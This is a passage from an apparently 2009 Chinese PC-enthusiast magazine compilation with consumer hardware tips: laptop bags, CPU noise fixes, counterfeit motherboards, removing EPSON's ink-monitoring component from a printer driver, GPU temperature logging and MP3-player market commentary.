强调轻薄与移动性的Portégé系列似乎很难念出声来，与其他品牌的超轻薄类笔记本电脑不同，Portégé有很多型号都是“全内置”的，也就是说它并没有牺牲光驱、USB接口或其他功能去减少体积和重量，这在实际使用中往往会带来意想不到的方便。当然，如此轻便是要以价格为后盾的，Portégé系列动辄上万元的价格使众多玩家只能望“本”兴叹。

至于Tecra系列，我们平时可能接触得比较少，从特点上来看，可以认为它是Satellite系列的高端版本，适合企业研发人员、程序设计师等对产品品质以及耐用性要求比较高的专业人士，自然价格也不会太便宜。

## 蚊声嗡嗡 本本高频噪音惹人忧

现在不少人都是拿本本泡论坛，夜深人静的时候坐在床上，一边刷帖一边吃零食，好不逍遥。可这夜深人静的，本本总是嗡嗡作响，像只蚊子一样，好不烦人！想想《大话西游》里的唐僧，Errrr……太痛苦了！

本本总是嗡嗡作响的原因是本本内部发出的噪音。这种情况是由于现在处理器的休眠技术导致，在处理器闲置状态下的切换，让电源管理模块“不堪重负”，所以嗡嗡作响，一旦让处理器满负荷工作，你就会发现本本没有这种噪音了。

### 小知识：什么是处理器休眠？

目前的处理器待机状态主要有C0、C1、C2、C3、C4等5种状态，C0（激活）是最大工作状态；C1（挂起）可以节省70%的功耗；C2（停止允许）让处理器时钟频率和I/O缓冲被停止；C3（深度睡眠）在多核心系统下，缓存无效，在单核心系统下，内存被关闭，但缓存有效；C4（更深度睡眠），核心电压低于1.0V，L2缓存内的数据存储将有所减少，可以节省98%的功耗，唤醒时间不超过1秒。

显然，主板的电源管理模块我们是没有办法去修改或做些什么的，退而求其次，我们只能从处理器入手了。下载RMClock（下载地址：http://work.newhua.com/cfan/200913/RMClock.rar），运行程序，选择“高级CPU设定”，在右侧上方切换为“芯片组”，然后在下方去掉“启用Popup模式”、勾选“禁用C4模式”、勾选“强制禁止深度睡眠”、勾选“启用Slow-C4退出”三项，这样处理器将不再频繁切换，电源管理模块也就不会频繁地根据当前处理器的变化更改供电，高频噪音也就消失不见了。

## 黑盒还是彩盒

近日，AMD再出昏招，推出了一批普通版本的Athlon X2 7750，它们与原有黑盒版的差别就是倍频被锁，可能有人会说了：“我不超频，锁就锁吧，便宜一块是一块！”正是因为普通版本的7750要便宜一些，很多JS也便起了小花招，如何拆穿他们呢？

-   彩盒、黑盒区别有三
-   区别1：左下方处理器信息处
    -   黑盒：AMD双核速龙处理器黑盒版本 AMD Athlon X2 Black Edition
    -   彩盒：AMD双核速龙处理器 AMD Athlon X2 Processor
-   区别2：右上方封条处第三行
    -   黑盒：Clock Multiplier Control（CPU倍频控制） 3.0MB Total L2+L3 Cache
    -   彩盒：3.0MB Total L2+L3 Cache
-   CPU-Z检验黑盒与否
    -   如果JS更换了外面的包装，由于CPU芯片本身标示并没有什么不同，那我们是不是就没办法了呢？我们可以打开CPU-Z查看处理器名字（Name），黑盒会有Black Edition字样，而彩盒没有。

## 好包包坏包包 背包攻略全知道

买本不买包的人少之又少。现在用提包的人也不多了，大家更愿意选择的都是背包，为什么呢？背包省力、易于携带。所以，无论是白领还是学生，背包都是最好的选择。不过包包可是太容易造假了，现在纺织行业的技术能力太强，甚至小厂都具备很高的制造水平，一个百来元的包包，你该怎样分辨真好坏呢？

其实无论多么名贵的包包，或是多么不起眼的小牌子，买包包时只要懂得辨别面料、结合处、内胆、背带几个方面就能挑到真正好用、耐用的包包了。

## 面料一搓就知好坏

一般来说，笔记本包包的面料要具备耐磨、防水两个特性才算过关。目前大部分包包使用的面料都是尼龙材质的（与汽车安全带的材料一致），当然，它也会有多个等级。区分包包织物的好坏主要看密度，例如最普通的420D尼龙，表面比较粗糙，也禁不起摩擦，很容易起丝。最高等级的1680D尼龙就会好很多，它的密度非常高，摸起来感觉很顺滑，而且韧性更好，非常耐磨。

同时，如果包包很重，那么它是可靠的，织物越密，用料也就越多，重量自然也就更重。这是不可变的。然后，双手抓住包包面料的任意两边相互揉搓，就像洗衣服一样，松开手，如果包包很快就自动变得平整，没有褶皱，就说明包包的布料过关。

另外，如果包包拿出来之后，有刺鼻的化工刺激性味道，那么这个包包肯定经过特殊的化工处理工序，建议您立即放弃选购。

## 实惠就是足够结实

很多人的包包不是“年久失修”退役的，有一大半都是因为肩带开线断掉的缘故被弃用，这是因为制造时偷工减料造成的。质量可靠的包包，在结合处都会经过特殊的缝合方法，如“打十字”，双线缝合加固，这样才能最大限度保证不会开线；包包才会真正经久耐用。

## 内衬柔软为缓冲

质量低劣的包包最舍不得在内衬上下功夫了。一般来说，内衬的厚度不应该低于5mm，同时，用手指用力捏下去松开时，好的内衬会快速反弹恢复原状。之所以包包会有内衬这样的设计，是为了避免本本受到冲击后造成的损坏。可不要以为内衬是为了防磨损设计的哦！

## 背带减负很关键

前面说了，越是好的包包重量越重，那背负起来岂不是很累？非也非也，背包最大的奥秘，有一半都是来自于肩带的设计，这一处设计的成败，将最终决定背包的使用舒适程度！首先是背带的宽度，小于5cm的背带就不用看了，这绝对会让你的双肩疼痛不已；肩带填充的海绵相当有弹性，所带来的好处当然就是耐用、负重性能好；其次是肩带的形状，一般呈对称S型的肩带减负效果最佳，如果背负的重量超过10千克，最好在系上腰背带下方的束腰带，靠腰腹的力量还能再分担些重量。其次，背面是否具备良好的透气性能也非常重要，有的背包在夏天使用时，一卸下来，后背的衬衫就是一片水印。分辨背部面料的秘诀是，按下背面的材料，你能感觉到面料中就像是有镂空的网眼（实际也是如此），这样的包包才会有效地帮你排汗，不至于背后一片水渍。

## 细节隔层体现包包好坏

背包的好坏不仅仅体现在产品本身的做工用料上，在细节上的设计是否体贴也很重要。比如说分层设计，出门在90%的情况下你都不会只背上一个本本那么简单，什么书啦、资料啦、文件啦、PDA啦等等一股脑地都会塞进去。如果包包有分层设计，那么储藏收纳都会变得十分简单。多功能的文组设计，可以放下笔、记事本、钥匙、手机、PDA等等各类物品。有的包包还会专门提供一个MP3播放器的小口袋，并有音频输出小口，可以一边背着它一边欣赏喜欢的音乐。另外，注意包包的侧面，是否有水袋设计，拉开，瞬间变成一个可以容纳500ML饮料的水袋，不仅美观，精巧的设计也让人眼前一亮。一般质量较好的背包价格不会低于100，性价比高的价格区间在150元~250元之间，更贵的产品性价比就不是很高了，只能酌情考虑。

（文/TKD）

## 谣言终结者之芯片篇

你听说过么？从帝国大厦往下扔一枚硬币能把人的脑袋砸个洞；长脚爷叔（daddy long-legs）这种蜘蛛是蛛形纲动物中毒性最大的，但它们的毒牙太小，咬不透人的皮肤；吃跳跳糖时喝汽水，胃会爆炸。

这些流言从何而来不得而知，要驳倒它们却也颇为不易。我们都听说过形形色色的流言：有的说闪电会击中戴舌环的人，有的说蟑螂经历了毁灭性的核爆却安然无恙。而向您散布流言的人肯定是从他的朋友、同学或亲戚那里听来的。而今天我们要一一击破关于芯片领域的各种流言……

## 流言第一条：多核一定比双核好

从2005年双核心CPU处理器面市最初，市面上的软件和游戏能够真正用上两个核心来提高整体性能的还非常罕见。时至今日，四核CPU处理器已经开始大行其道的时候，很多的软件和游戏开始为多核做更多的优化和设计，逐渐摆脱过去主要依赖CPU处理器频率的日子，看起来多核时代已经来临，那么究竟是不是这样呢？

多数时候评价一款CPU的性能，游戏测试是最好的方法，一来可以看出流行软件的优化程度，二来可以直接看出CPU的能力表现。

我们从测试结果（见图1）可以看出，影响游戏FPS（帧数）高低在于CPU主频，而非核心数量。主频达到3.33GHz的双核E8600的游戏性能超越了售价近万元的QX9770，其原因在于目前我们的应用软件和游戏对于多处理器（等同于多核CPU）的优化很不完善，更有甚者仅仅利用到了CPU的一颗核心。这个时候多花钱买来的多核心便成了“花瓶”。

虽然在游戏中是如此，但多核心处理器在视频编码、多任务协调上还是有着巨大的优势，不过考虑到日常应用多核心处理器的优势很小，所以此条流言被破解。

## 流言第二条：奔腾E和酷睿其实区别很小

相比起奔腾4时期的Neburst架构，Pentium（奔腾）这个名字本身就蕴含了无限的价值，尤其是在中国国内，相信多多少少都有会有人知道“奔腾”这一类似于电脑的代名词。而今，Pentium沦为了Intel CPU的低端品牌，但由于它的影响力，也造成了新的奔腾E系列在大家的心中无法称为低端产品的形象，更有坚实的拥护者认为奔腾E系列和酷睿性能上没有太大差别。

再一次参考测试结果（见图2）可以看出，虽然在表面上看起来奔腾E系列仅仅是精简掉了L2 Cache（二级缓存），但相比E8、E6甚至是E4系列性能上是有着相当大的差距。就拿如日中天的E5200（主频2.5GHz、2MB L2 Cache）来讲，在游戏性能上落后E6600（主频2.4GHz，4MB L2 Cache）30%，更不用提E8系列的SSE4.1、VT（虚拟化）等更多功能的不支持，单就频率来讲超频至3.2GHz的E5200性能也仅仅可以持平于E6系列的酷睿。

购买产品大家都希望物美价廉，但是这种心理很容易被误导，像奔腾E系列我们给出的定位便是当年的赛扬，核心架构是一样的，但性能差距不小，所以此条流言被破解。

## 流言第三条：新制程性能比老制程好

在芯片界最常听说的便是架构、制程的转换了，Intel的Tick-Tock便是如此规律地循环着。新工艺、新制程的引入确实降低了功耗、发热量并提高了频率，看起来新制程优点多多完全没有缺点，究竟是不是这样呢？

确实在CPU领域新制程优点太多太多，但是在显示芯片领域又是另一番景象。我们就拿中端最热门的显卡Geforce GTX260+来讲，制程进步到了55nm，但发热量、功耗不降反升，超频潜力也是没有任何提升。我们错就错在目标全部集中于芯片上，而忽视了显卡是“芯片+显存+外围电路+散热器”的合成品。

不降反升的功耗让55nm工艺蒙了羞，其制程上的提高仅仅是降低了厂商的成本，而就产品质量上没有任何提高。

缩水的供电、缩水的散热器带来了缩水的制程产品，所以此条流言只能说是有可能。





# 鱼龙混杂 山寨与正品共存

要说“山寨”这个词是哪里来的，可能很多人都不知道。手机虽是山寨的重灾区，可板卡却是山寨的发源地。而山寨板卡凭借着主板品牌几十上百的优势混杂在其中，难以分辨。

## 找出特征，分辨山寨

- 特征一: 和山寨手机不同，芯片组多为过时产品，945、965较多，甚至还有8系列的产品。
- 特征二: 名称和包装与传统品牌相似。
- 特征三: 包装简陋，同一牌子所有型号的产品都使用了同一种包装。包装上甚至会介绍一块主板可以同时支持Intel和AMD多种接口的CPU。
- 特征四: 设计布局同质化严重，相似度从PCB的颜色到各种扩展接口的位置，甚至包括散热片贴歪的角度和采用倒置的网卡接口。

## 认清品牌，舍弃诱惑

消费者为了省钱，自然会选择一些便宜的产品，而他们可能对配件并没有什么了解，不了解板卡品牌，不清楚山寨主板带来的安全隐患，仅仅为了价格因素而选择了山寨主板。虽然没有售后的山寨主板，如果你还能找到销售商一般故障后都会换新给你，但是连带着废掉你的CPU或者硬盘呢？

## 山寨1号板，华硕与技嘉的私生子——华嘉

包装上印有的Intel LOGO，但实际是采用C61芯片组的产品；遍布整个主板，俗称“烟囱”的劣质电容；两相供电电路；劣质的输入输出接口用料。我们能指望这样的主板稳定运行吗？当然这个还是山寨板里做工比较“厚道”的一款产品。

## 山寨2号板，柏能进军主板行业——宝蓝

看似全固态电容的用料还不错，仔细一瞧，竟然同一位着用着不一样颜色的电容。100多元的售价，让人不得不怀疑主板上元件的来源。精简的走线，可怜的接口数量，这款主板还真是秉承了“实用为主，能简则简”的原则。

虽然山寨主板的曝光率不如山寨手机，但其危害不比山寨手机小。而在买方卖方齐全的这个市场，它也不可能很快地消亡。但拒绝山寨板卡，是对市场的保护，也是对你自己的保护。

# 限定中国发售真的要抵制吗

在IT界，谁能称王是靠实力和市场的取向来看的，取得高端市场的胜利无疑增强着企业的竞争力及自信心，而主流产品却是一个企业是否能站稳脚跟，是否能获得大量利润的重中之重。中国这个唯一在全球保持高速增长的市场，谁又能视而不见？如果能在中国市场有所斩获，那么意义是非凡的。这也是众多厂商有独钟地在推出限定中国（Only China Sales）产品的原因。

## Radeon 9800SE，开心还是悲愤？

9800SE本是ATI供给OEM的芯片产品（仅具备4条渲染管线）。9800SE在中国发布的第一天就冠以了限定中国市场的名号，并被涂上浓重的中国特色——改造！虽然管线破解有一定的成功率，但是通过软件改造成功后完全可以媲美9800Pro核心。但随后褒贬不一的评价也伴随着它走过了它的一生。缺陷产品的屏蔽，向中国倾销库存品，免费的午餐果然不是好吃的等等……

# Radeon 4830、WD 808.8GB 绿盘，历史重演

与曾经的9800SE相同，这两款产品的出身都不能说是光彩。4830与9800SE一样是屏蔽缺陷单元的产品。而更重视稳定性的硬盘产品竟然也出现了屏蔽缺陷坏道的绿盘，而容量竟然是国人概念中的吉利数字8的组合——808.8GB。

## 屏蔽，它是整个业界的正规手段

本文在这里不做大篇幅屏蔽原理的介绍，只是举几个例子大家就应该会明白。

- 例子1: 日立单碟375GB·7K1000B硬盘容量分别为1TB、640GB。
- 例子2: 市场热捧的GeForce GTX260+和GTX285同样采用GT200B核心，在核心面积、制造工艺上没有任何改变。

这里是一样的道理，GTX260+也不过是GTX285屏蔽单元的产品，从而很好地控制了成本，我们又怎能说4830有隐患呢？

## 理性看待限定中国

黑猫白猫，抓到老鼠才是好猫。我们不应理会厂商的市场策略如何，我们需要的仅仅是品质、性价比。相比这种厂商屏蔽行为，二线甚至三线小厂的板卡产品才应该是我们注意的对象。比起芯片、储存大厂严格的品控，小厂的板卡产品的质检低劣，偷料严重往往在短时间内无法发现，但产品的整体寿命都在1年以下，也正是质保将要过期的阶段。

限定中国的产品和小厂产品都具有极强的性价比，但整体质量却相差甚远，到这里，孰优孰劣相信大家也能看个端倪了。

## 读者眼中的它们

- Link：我觉得这种屏蔽次品的行为虽然是市场策略，但还是让人感觉到十分的不爽，凭什么二等品就要卖给我们啊？
- 米果：只要质量没问题，售后没问题我才不管它是什么产品，性价比是第一，谁让咱是个苦命的穷人呢。
- 疯人院院长：屏蔽就是正常现象，以前人家这么做的时候大家乐呵呵地买，还说东西好。现在怎么就这么容易被一些枪手误导呢？我们是买的IT产品，不是高档时装，哪有以次充好之说。

# 反寨联盟 ——雷死人不偿命的12英寸“苹果MacBook Air”！

单从外观上看，12英寸的“苹果MacBook Air”实在是太太太像苹果出品的了。精湛的外观边角，猛一看真不像山寨产品，而且在细节上也丝毫不输给真苹果。只是，假的终究真不了，有句话“去伪存真”，不妨我们来看看这款雷死人不偿命的12英寸“苹果MacBook Air”吧。

猛一看，你根本不能相信，这款竟然是个彻头彻尾的假货！如同真假孙悟空一般，让你难辨真伪。更不可思议的事情是，在一些细节上，它确实也非常“精湛”。尤其是在众多山寨产品中，说它是精品都不为过了。

仔细看看接口，上边的是假货，下面是Air真品。怎么样，雷人吧？都采用收纳隐藏式的接口设计。如果这个山寨厂商只是做“Air like（类Air）”，我们一定会认真对待。但现在，它穿了人家的衣服，取了人家的名字……

当然，它绝对无法做到像Air那样的完美。尽管也够轻，1.35千克左右，但毕竟假货就是假货，翻开顶盖，看看机身的C面键区，一下你就能区分出真假了。上图为假货，下图为真品。显然，悬浮式键盘被一个普通的不能再普通的产品替代了，一下“破坏”了“Air”的美感。

> 小编点评：当然，这款机型采用的也只是Windows系统，价格自然也够便宜。但我们在想的一个问题是，如果这个雷死人不偿命的12英寸“苹果MacBook Air”山寨本生产商，能够自己建立一个牌子，我们一定会为之喝彩，但现在，为什么要做这样不光彩的事情呢？

# 暑期旅游 好风景 好段子

无论是探亲访友还是游山玩水，数码相机已经成为现在出行必备设备之一，且随着各大网络空间与交友平台的兴起与发展，也极大推动了网友们对视图的分享欲望。数码相机有广角、有长焦。对于外出游玩来说，长焦镜头在背景虚化、远望打鸟等多种拍摄领域有着出色的表现。

长焦数码相机主要特点其实和望远镜的原理差不多，通过镜头内部镜片的移动而改变焦距。当拍摄远处的景物或者是被拍摄者不希望被打扰时，长焦的好处就发挥出来了。而焦距越长则景深越浅，和光圈越大景深越浅的效果是一样的，浅景深的好处在于突出主体而虚化背景，相信很多人在拍照时都追求一种浅景深的效果。这样使照片拍出来更加专业。一些镜头越长的数码相机，内部的镜片和感光器移动空间更大，所以变焦倍数也更大。

## 紫边与畸变 长焦相机无法完全跨越的障碍

对于镜头的整体素质而言，实际上变焦范围越大，镜头的质量也越差。10倍以上超大变焦的镜头最常遇到的两个问题就是镜头畸变和色散。最终体现在照片紫边情况都比较严重。超大变焦镜头很容易在广角端产生桶形变形，而在长焦端产生枕形变形。虽然镜头变形是不可避免的，但好的镜头会将变形控制在一个合理范围内。理论上变焦倍数越大，镜头也越容易产生形变。当然很多厂家也为此做了不少努力，比如通常厂家会在镜头里加入非球面镜片来预防这种变形的产生。对于色散来说厂家通常使用防色散镜片来避免，比如尼康公司的ED镜片。随着光学技术的进步，目前的10倍变焦镜头实际在光学性能上应该可以满足我们日常拍摄的需要。

## 鱼和熊掌 可兼得否？

在现在推出的大变焦比数码相机中，除了少数高端的机型配备了28mm的广角端以外，其他的大都是将32mm作为最宽的广角端。这样做主要是出于镜头制造技术以及成本方面的考虑。因此，在选购中端的长焦数码相机的同时，往往就意味着已经失去了拍摄广角照片的优势。若想拥有一款长焦相机“一机走天下”的话，那就要稍微付出些金钱的代价。目前拥有28mm广角端的长焦相机售价基本稳定在2600元左右，要有心理准备哦！佳能在单反领域的造诣大家都知晓，SX10 IS也是身具多种技术的集合体，价格嘛，自然不会便宜的，毕竟牌子摆在那呢！暑期遇到好风景、好段子的时候，记得牵手中的相机记录下来，这会成为将来宝贵的“东西”，但在拍摄的时候记得一定不要在长焦端与广角端的端点使用最大光圈，这样会造成被一定程度上的畸变，有好的器材也需要好的技术知识积累，Auto功能记录不下美好的景色。

# 斩杀卧底 攻破EPSON打印机墨盒监控防线

对常用打印机的用户来说，节约打印成本、提高打印效率是最为happy的事情。在Cfan第12期上，作者已告诉大家如何给打印机安装连供系统，但道高一尺，魔高一丈，打印机厂商也不是吃闲饭的。既然连供盛行，厂商就要千方百计地阻碍售卖耗材的它“干掉”，如EPSON的随机软件Status Monitor 3，便是专为监控连供而生。主要表现为记录和监控打印量，当发现打印量超标，便会强制要求更换墨盒，即便是墨盒中还有余量。按网络上传授的一些方法，可以通过开始→设置→打印机和传真，在打印机图标上单击鼠标右键→打印首选项→维护→禁用EPSON Status Monitor 3来停止监控程序。但总感觉这个方法有点治标不治本，它依然在某个角落偷偷地监控着打印机。

# 十招之内清卧底！

大家想不想彻底干掉EPSON派来的这个内鬼呢？跟随笔者往下看吧。

- 第一步：新购买的打印机，或者还没有给打印机安装驱动，这步就可以免了。如果打印机驱动已经安装在电脑里面，就要先把它卸载掉，也可以使用专业工具进行卸载，这样清除得更加彻底。
- 第二步：插入EPSON原装驱动光盘，找到驱动程序的安装目录。笔者的驱动文件在“X:\CHINESE\WINVISTA_XP_2K\SETUP”目录下面（X:\表示光盘盘符），把所有的驱动文件复制到硬盘。
- 第三步：搜索驱动程序目录下面的INF文件，INF文件可以理解为安装驱动程序的索引，笔者的INF文件名为E_DF1AIP_CHINESE.inf
- 第四步：打开E_DF1AIP_CHINESE.inf，找到[EPNDRV.nt]和[EPNDRVXP.nt]字段，不同型号的EPSON打印机可能有所不同，但是这个字段一般在E_DF1AIP_CHINESE.inf文件的前面，且包含着下面这些字段信息。
  CopyFiles=
  DataSection=
  AddReg=
  ProfileItems=
- 第五步：在[EPNDRV.nt]的“CopyFiles”后面找到“FILES_STM_NT”，并且删除FILES_STM_NT字段，因为CopyFiles要指引着Windows系统去寻找后面的字段进行驱动安装。删掉FILES_STM_NT之后，驱动程序就不会再安装这个字段的相关信息了。[EPNDRVXP.nt]下面的“CopyFiles”也要删除。
- 第六步：在[EPNDRV.nt]的“AddReg”后面找到“AddNet_NT.AddReg”删除；同样的[EPNDRVXP.nt]“AddReg”后面的“AddReg,AddNetXP_NT.AddReg”字段也要删掉。AddReg字段负责添加驱动程序的注册表项目，删掉后监控程序就不会在注册表里被注册了。
- 第七步：用记事本的搜索功能，搜索刚刚删掉的AddNet_NT.AddReg和AddNetXP_NT.AddReg，将这两个字段以及下面的相关内容删除。
- 第八步：找到[UninstallInfo_NT.AddReg]字段，将如下内容删除：
  HKLM,"%UNINSTKEY%\PrinterDrivers\%DRVNAME%\Settings\HKEY_LOCAL_MACHINE","101",0x00000000,"SOFTWARE\EPSON\STM3\Driver\%DRVNAME%""","""***"
  HKLM,"%UNINSTKEY%\PrinterDrivers\%DRVNAME%\Settings\HKEY_LOCAL_MACHINE","102",0x00000000,"SOFTWARE\EPSON\STM3\Driver""","""***"
  HKLM,"%UNINSTKEY%\PrinterDrivers\%DRVNAME%\Settings\HKEY_LOCAL_MACHINE","103",0x00000000,"SOFTWARE\EPSON\STM3""","""***"
- 第九步：找到[FILES_STM_NT]字段，这次别这么快的删除啦！先将这个字段下面的文件都记录下来，然后去查找[SourceDisksFiles.x86]字段，两个字段的内容对照着进行删除，最后再删掉[FILES_STM_NT]字段及其内容。
- 第十步：继续查找[DATA_MODEL_2K_NT]字段，删除LanguageMonitor = "EPSON Stylus Photo R220 Series 32MonitorBP,E_FLMAIP.DLL"。这步并不是必须的，但是如果不删除这部分，那么在使用SETUP自动安装驱动的时候会出现找不到文件的错误，原因暂不太清楚。

# 斩草需除根 大家一起来！

一般来说，被上面“十招”所斩杀的EPSON监控，已经遍体鳞伤了，但是有些字段还可以继续进行删减。如果大家还没有打瞌睡，那么继续向着监控挥舞我们的大刀吧！

1. 返回INF文件的最前面，把[EPNDRV.nt]字段下面的“EBPLPT_2K_NT”和[EPNDRVXP.nt]字段下面“EBPMON_NT”删除。
2. 查找[EBPMON_NT]和[EBPMON_2K_NT]，同上面[第9招]如法炮制。
3. 将[DestinationDirs]字段下面的EBPMON_NT = 66002和EBPMON_2K_NT = 66002删除。

# 大功告成！

现在可以使用修改后的驱动重新给打印机安装了，由于驱动程序中默认已经砍掉了EPSON Status Monitor 3，所以无论是使用连供还是给墨盒重新注墨，都不会有一双神秘的眼睛在后面盯着用墨量了。当然，有利就有弊，由于墨量检测程序被砍掉，所以也无法再次得知墨水的使用情况，且无法再次开启墨量检测监控程序，还有多少余墨，只能全凭估计了！

笔者声明：此方法仅供研究使用，私自修改厂家的软件可是不对的哦！虽然不同型号的EPSON打印机驱动有所不同，但EPSON打印机驱动程序的结构是大同小异的，希望读者们按照笔者的例子，多多摸索，早日清除掉潜伏在电脑内部的监控特务。
（北京/杨潇宇）

# 有据怎能没理

每当夏天来临的时候，几乎所有朋友都开始头痛自己的散热问题，加风扇、开机会箱更有甚者开着空调自己穿着厚厚的衣服。但今天，我们不提如何散热，我们从另一个角度分析一下，是哪些程序让你的电脑在发热。

# 热源分析，显卡是罪魁祸首

由于CPU早被写上了热源的黑名单，无论是机箱、散热器还是CPU厂商自己都很清楚地意识到这个问题，所以让CPU安然度过夏天并不费力。但后起之秀显卡就不得了了，凭借远超CPU的晶体管数量、惊人的能耗、更落后一些的制程，它已然成了电脑热源的罪魁祸首。

# 罪魁祸首，重点监视

- 监视犯人我们自然要找一个能吃苦耐劳的“人”，不仅如此“他”还得能随时进行记录，而GPU-Z这个我们常见的工具就满足这些条件。
- 第一步：下载GPU-Z（下载地址：http://www.techpowerup.com/downloads/1379d/GPU-Z.0.3.4.exe）并进行安装。
- 第二步：打开GPU-Z，切换到上方的Sensors（传感器）选项卡，这时我们可以看到显卡核心频率、温度等等数据，但是GPU-Z的红条显示并不精确而且不直观，所以我们要使用它的记录日志功能。
- 第三步：勾选下方的Log to file（记录日志到文件）和Continue refreshing this screen while GPU-Z is in the background（程序在后台运行时继续刷新），选择文件保存地址并最小化GPU-Z。
- 打开你的各种游戏、测试程序并记录打开和关闭的准确时间，看看到底谁是制造高温的最强选手吧。

# 利用 Excel 分析数据

- 既然我们得到了精确的数据，那么就应该好好利用，表格和曲线图是分析数据最好的帮手。这时就该请出Office了。
- 第一步：用Word2007打开GPU-Z Sensor Log.txt。
- 第二步：按“Ctrl+A”组合键选中全文，切换到“插入”选项卡后单击“表格”，选择“文本转换成表格”，在弹出窗口中设置“文字分隔位置”为“逗号”（因GPU-Z传感器日志文本中数据间是用逗号隔开的），确定转换，这样一个表格就做好了。
- 第三步：打开Excel 2007，把生成表格粘贴进去。
- 第四步：选中需要绘制曲线的区域，如“Date”（时间）和“GPU Temperature”（核心温度），切换至“插入”选项卡，单击选择“折线图”，马上可以看到各时间点的温度曲线了。
- 同样的道理我们还可以得到频率、风扇转速、电压等曲线。

# 曲线图有什么用处

得到曲线图后我们就可以根据时间线观察，到底是哪个游戏、程序让显卡温度最高，有的时候一个要求不高的游戏、程序却可以让显卡持续90℃甚至更高的温度。如果发现这样的游戏、程序，那么在这个炎炎的夏日，临近中午或午后室温最高的时候便不适合开启。合理安排自己运行程序的时间，也可以是夏日降温的一种好方法。

小知识 你不为所知的高温制造者
在上文的测试中，我们惊奇地发现，很多我们日常运行的程序都会调用显卡甚至造成高温，比如说网页中的Flash，安装Flash 10插件后默认开启硬件加速，那么在网页中有Flash或者是观看在线视频时显卡便会从2D状态切换至3D状态，这个时候便会造成高温发热。
（文/许宁）

# 让你的本本也能多点触摸

联想Ideapad Y450等今年新推出的笔记本电脑上，触摸板大多支持多点触摸技术，但是这不具备通用性。目前世界上占有率最高的还是Synaptics触摸板，超过80%的笔记本都是安装这个牌子的产品。多点触摸有啥好处呢？比如你在浏览一个网页，或者一幅图片时，想要放大或缩小，完全可以在触摸板上用两根手指的动作手势来控制，十分方便。想在你自己的本本上实现这个功能吗？Synaptics如今也为用户提供多点触摸技术了（注：越新的笔记本支持程度越高，经测试，2008年以前的笔记本触摸板都不支持）！

安装Synaptics最新版本驱动程序（Vista版本下载地址：http://www.fmworld.net/download/E1007347/E1007347.exe，Windows XP版下载地址：http://www.fmworld.net/download/E1006580/E1006580.exe），并按照向导安装，过程十分简单。

重启系统后，单击“开始→控制面板→鼠标”，切换到Synaptics的设备设置上，然后选择Settings（设置），在左侧下拉菜单中，点选Advanced Gestures→ChiralRotate（高级姿态→手势转动）上，在右侧勾选Enable ChiralRotate（激活动态手势转动）。

这样，当你在浏览网页或是图片时，就可以依据不同的手势动作，实现更加方便的操控。
（文/TKD）

334 · 电脑爱好者 合订本 · 2009

# 路漫漫其修远 国内MP3品牌出路何方

自MP3诞生之日，纠结于身的问题便没有消停过，版权、产权、专利等一直围绕着它展开阵地争夺战。时至今日，MP3本身的“元素争端”已落下帷幕，而依托其生存的播放器，似乎也走到了“瓶颈期”。

**小知识：**
MP3播放器被定义为可播放MPEG-3格式的音频播放器，并且支持WMA、WAV等音频格式。随着技术的不断成熟，许多MP3都具有大容量硬盘或者彩屏等配置。从1998年世界上第一台MP3播放器诞生之初，至今已发展到仅国内市场的MP3播放器品牌便有三百多种（含山寨）。

而MP4则是能播放MPEG-4格式，具备了“随身看”功能的视频播放器。现在对MP4播放器的功能没有具体界定，不少厂商都将它定义为多媒体影音播放器。MP4除了看电影的基本功能外，还支持音乐播放、浏览图片、数据存储、视频录制等。正是因为它完全兼容MP3格式的播放，在某些厂商的宣传上也将它称为MP3播放器，如昂达电子，这点需要注意（本文也是将MP3与MP4统称为MP3产品）。

## 四面楚歌

国内几大MP3播放器品牌，经过多年的耕耘，虽无法与索尼、苹果比肩，但某些经典产品在性价比优势上赢得了消费者的好评。但由于在视频MP3播放器领域，目前配备3英寸屏幕的产品已属低端，双无损音频格式以及RMVB视频格式的支持也不再新鲜，解码芯片的不断更新，音视频解码性能大幅提升，迅速发展的产业带给了消费者福音，产品在今后的发展道路却只会越走越窄。原因呢？能加进去的功能基本都加上了，如何再次提起消费者的购买兴趣，相信这也是令厂商们头疼的问题。

播放器上的屏幕主流到4.3英寸，再继续增大就会失去了便携性；芯片厂商的技术能力有限，国内厂商们还没有像国外那样自主研发的专利，如索尼的重低音技术，三星的DNSe2.0自然音效技术，所以依旧走着双无损音频格式的“老”路线，加之配套音频转换软件的跟进，ROM的研发都不到位，也限制了消费者对产品的认可度。山寨的问题就不多说了，公版模具的滥用，相同的解码芯片，匮乏的设计创意与新鲜感，消费者会买账吗？

但最为不利的还是智能手机、PSP等便携设备的流行，似乎将MP3播放器推上了“绝路”。据在北京街头随机采访调查，14岁-28岁之间的人群超过了90%更倾向仅携带一种“万能”设备出行，当手机、掌上游戏机、电子阅读器都集成了MP3播放功能时，MP3播放器单独存在的价值已微乎其微。

## 敢问路在何方？

路其实就在脚下，苹果与索尼已经用他们的发展道路回答了这个问题：苹果的产品家喻户晓，与之配套的软件、网站异常强大；索尼的产品设计新颖，经常有另类的东西现身，对应系列有着明显的用户倾向性，加上各项专利与Walkman积累下的口碑，使其也稳稳占据着MP3的龙头地位。

可以说，在经历了几次失败之后，索尼从“技术是国王”转变到“顾客是国王”，这是索尼内部一种看不见的转变。1997年开始介入中国业务的索尼（中国）前副董事长川崎成一不止一次在内部强调“顾客是国王”的理念，在他看来，“即便是竞争这么激烈的情况下，我们也要不断地做出一些跟其他产品、品牌区别化的东西，真正去吸引顾客，因为决定权在顾客手里，只有真正拿出吸引顾客的产品，才有可能在市场竞争。”

“而设计上，我本人对索尼的风格比较了解，首先要保持标识的一致性和一些比较清楚的形象特点，比如又快乐又酷的形象。同时要创造出一些东西区别于市场上其他的竞争对手。要保留一些基本的概念、理念，在这些基础上，去创造新风格的东西，贴近用户的感受，才能使我们的产品更加有吸引力。”

这就是索尼的发展观点，而国内的品牌厂商，是否能考虑到了这些呢？贴近用户的感受、企业内部的发展转型，这些不仅仅是发展的理念，还是一种面对消费者的态度与决心。在利益的大旗下试问，我们可以做到吗？

> （北京/豆子）

# 小成本 小制作 解决USB供电不足的小问题

老式的移动硬盘、外置光驱或电视盒，经常会遇到USB供电不足的问题。换吧，代价太大，加个电源什么的，不是没接口就是成本太高，有没有低廉的解决方案呢？

其实，我们可以只用两个元件，便可组装出一个“准万能”的USB加强供电线缆，外置USB设备都可通过它解决供电问题。

## 需要的材料：

- 1. “两公头对一公头”的USB线缆一根，这根线缆常见于“高档”的移动硬盘盒内，如没有可以去电脑城选购一个，约6元左右。
